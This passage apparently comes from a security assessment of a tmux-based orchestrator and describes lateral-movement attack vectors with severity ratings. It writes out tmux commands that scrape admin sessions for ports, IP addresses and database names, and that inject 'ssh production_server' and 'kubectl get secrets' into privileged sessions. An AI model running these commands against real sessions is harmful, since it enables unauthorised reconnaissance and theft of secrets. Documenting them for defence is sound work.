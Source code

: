 **Attack Vector ID:** AV-LM-002  
**Severity:** MEDIUM  
**CVSS Score:** 6.9 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N)  
**Exploitability:** Moderate

**Technical Details:**
Session content often reveals network topology and service information:

**Exploitation Pathways:**
1. **Service Enumeration:**
   ```bash
   # Extract service information from session content
   tmux capture-pane -t admin_session:0 -p | grep -E ":[0-9]+" | sort -u
   ```

2. **Network Mapping:**
   ```bash
   # Identify network topology from session content
   tmux capture-pane -t network_session:0 -p | grep -E "([0-9]{1,3}\.){3}[0-9]{1,3}"
   ```

3. **Database Connection Discovery:**
   ```bash
   # Find database connections
   tmux capture-pane -t db_session:0 -p | grep -E "mysql|postgres|mongodb"
   ```

**Attack Prerequisites:**
- Access to administrative sessions
- Pattern recognition skills
- Understanding of network services

**Impact:**
- Network topology discovery
- Service vulnerability identification
- Database access opportunity
- Targeted attack facilitation

### 6.3 Trust Relationship Abuse

**Attack Vector ID:** AV-LM-003  
**Severity:** HIGH  
**CVSS Score:** 7.7 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)  
**Exploitability:** Moderate

**Technical Details:**
The orchestrator system often runs with elevated trust relationships:

**Exploitation Pathways:**
1. **Inter-System Authentication:**
   ```bash
   # Abuse orchestrator's system trust
   tmux send-keys -t orchestrator:0 "ssh production_server" Enter
   ```

2. **Service Account Abuse:**
   ```bash
   # Use orchestrator's service account
   tmux send-keys -t service_session:0 "kubectl get secrets" Enter
   ```
